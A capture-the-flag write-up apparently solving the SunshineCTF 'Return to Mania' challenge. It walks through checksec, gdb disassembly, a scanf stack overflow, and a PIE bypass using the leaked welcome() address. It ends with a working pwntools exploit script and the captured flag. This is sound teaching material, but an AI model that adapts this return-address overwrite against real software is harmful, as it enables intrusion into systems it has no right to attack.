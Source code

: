 ## SunshineCTF: Return to Mania
##### *tl;dr: buffer overflow to change instruction pointer*
#### First pwn challenge worth 50 points, we start reconnaissance with ```checksec```:
```
$ checksec return-to-mania
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### From the results, we see that the binary has a non-executable stack, but we can still perform a buffer overflow since there isn't a stack canary in place. Also, we have to note that PIE is enabled which means that the addresses for functions are in a randomized layout. We run the binary to have an initial look on what it does:
```
$ ./return-to-mania
  Welcome to WrestleMania! Type in key to get access.
  addr of welcome(): 0x5658c6ed
```
#### We'll be testing this locally for now, but when we run the binary on the challenge server, we get a different address for welcome everytime. So what the binary does is print some stuff out, give us the address for welcome, and wait for user input. To see the inner workings of the binary, we open it in gdb:
```
$ gdb ./return-to-mania
  gdb-peda$ disas main
    Dump of assembler code for function main:
     0x00000746 <+0>:	  lea    ecx,[esp+0x4]
     0x0000074a <+4>:	  and    esp,0xfffffff0
     0x0000074d <+7>:	  push   DWORD PTR [ecx-0x4]
     0x00000750 <+10>:	push   ebp
     0x00000751 <+11>:	mov    ebp,esp
     0x00000753 <+13>:	push   ebx
     0x00000754 <+14>:	push   ecx
     0x00000755 <+15>:	call   0x560 <__x86.get_pc_thunk.bx>
     0x0000075a <+20>:	add    ebx,0x13f2
     0x00000760 <+26>:	call   0x6ed <welcome>
     0x00000765 <+31>:	sub    esp,0xc
     0x00000768 <+34>:	lea    eax,[ebx-0x12cc]
     0x0000076e <+40>:	push   eax
     0x0000076f <+41>:	call   0x4d0 <puts@plt>
     0x00000774 <+46>:	add    esp,0x10
     0x00000777 <+49>:	mov    eax,0x0
     0x0000077c <+54>:	lea    esp,[ebp-0x8]
     0x0000077f <+57>:	pop    ecx
     0x00000780 <+58>:	pop    ebx
     0x00000781 <+59>:	pop    ebp
     0x00000782 <+60>:	lea    esp,[ecx-0x4]
     0x00000785 <+63>:	ret    
   End of assembler dump.
```
#### Basically, the main function just heads on to call the welcome function, so that's what we have to focus on disassembling. 
```
 gdb-peda$ disas welcome
   Dump of assembler code for function welcome:
     0x000006ed <+0>:	  push   ebp
     0x000006ee <+1>:	  mov    ebp,esp
     0x000006f0 <+3>:	  push   ebx
     0x000006f1 <+4>:	  sub    esp,0x14
     0x000006f4 <+7>:	  call   0x560 <__x86.get_pc_thunk.bx>
     0x000006f9 <+12>:	add    ebx,0x1453
     0x000006ff <+18>:	sub    esp,0xc
     0x00000702 <+21>:	lea    eax,[ebx-0x131c]
     0x00000708 <+27>:	push   eax
     0x00000709 <+28>:	call   0x4d0 <puts@plt>
     0x0000070e <+33>:	add    esp,0x10
     0x00000711 <+36>:	sub    esp,0x8
     0x00000714 <+39>:	lea    eax,[ebx-0x145f]
     0x0000071a <+45>:	push   eax
     0x0000071b <+46>:	lea    eax,[ebx-0x12e8]
     0x00000721 <+52>:	push   eax
     0x00000722 <+53>:	call   0x490 <printf@plt>
     0x00000727 <+58>:	add    esp,0x10
     0x0000072a <+61>:	sub    esp,0x8
     0x0000072d <+64>:	lea    eax,[ebp-0x12]
     0x00000730 <+67>:	push   eax
     0x00000731 <+68>:	lea    eax,[ebx-0x12d1]
     0x00000737 <+74>:	push   eax
     0x00000738 <+75>:	call   0x500 <__isoc99_scanf@plt>
     0x0000073d <+80>:	add    esp,0x10
     0x00000740 <+83>:	nop
     0x00000741 <+84>:	mov    ebx,DWORD PTR [ebp-0x4]
     0x00000744 <+87>:	leave  
     0x00000745 <+88>:	ret    
  End of assembler dump.
```
#### Analyzing the instructions, we see puts and printf being called, which we know just prints the stuff that we see when we start the binary. What we do want to pay attention to starts at address ```0x0000072a```, we see that the code creates space in the stack and initializes a buffer of 18(0x12) bytes - then we proceed to a ```scanf()``` call which we can exploit by putting in more stuff than it expects. By inputting 18 bytes of input and adding 4 additional bytes, we can now be able to overwrite the instruction pointer. But where do we jump to? Let's take a look at the functions that we have.
```
gdb-peda$ info functions
  [...]
  0x0000065d  mania
  0x000006ed  welcome
  0x00000746  main
  [...]
```
#### We see the ```mania``` function, but we don't see it get executed in the main function, so this is what we want to jump into and execute. We need to consider that the binary has its ASLR feature turned on, but that won't be a problem - since the offset between the addresses of each function is always the same. The addresses of the functions mania and welcome have a difference of 144, what we can do with this is whenever we're presented with the address of the welcome function in the start of the challenge, we can subtract 144 from it and we get the address for mania. So let's create our exploit script:
##### exploit.py  
```python
#: Connect to challenge server
HOST = 'ret.sunshinectf.org' 
PORT = 4301
p = remote(HOST,PORT)
prompt = p.recv()

#: Exploit code
offset = 'A' * 22
welcome_addr = int(prompt.splitlines()[1].split()[-1],16)
mania_addr = p32(welcome_addr - 144)
exploit = offset + mania_addr

#: Send payload
p.sendline(exploit)
print(p.recv())
```
#### Then we run it to get the flag!
```
$ python exploit.py
  WELCOME TO THE RING!
  sun{0V3rfl0w_rUn_w!Ld_br0th3r}
```
